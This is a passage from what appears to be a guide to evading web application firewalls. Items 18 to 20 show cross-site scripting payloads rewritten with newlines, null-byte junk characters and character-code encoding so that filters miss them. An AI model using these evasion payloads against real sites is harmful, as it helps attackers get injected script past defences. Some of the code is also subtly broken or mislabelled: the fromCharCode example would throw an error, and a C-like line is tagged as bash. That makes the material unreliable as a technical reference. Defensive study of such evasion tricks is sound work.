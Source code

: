 **Updated with uninitialized variable:**
```bash
int x; return x = 1;
```

## 18. Newline Technique

**How to do it:**  
Introduce newline characters within a payload to break up malicious patterns the WAF is scanning for.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with newline characters:**
```bash
<script>
alert('XSS')
</script>
```

## 19. Junk Character Technique

**How to do it:**  
Insert random or irrelevant characters into the payload that the target application will ignore, but which might cause the WAF to overlook the attack.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with junk characters:**
```bash
<scri%00pt>alert('XSS')</scri%00pt>
```

## 20. Dynamic Payload Generation Technique

**How to do it:**  
Generate payloads dynamically, so they change on each request, making it difficult for the WAF to recognize and block them.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with dynamic payload generation:**
```bash
<script>eval(String.fromCharCode(97,108,101,114,116)('XSS'))</script>
```

## How Effective are these techniques mentioned above?
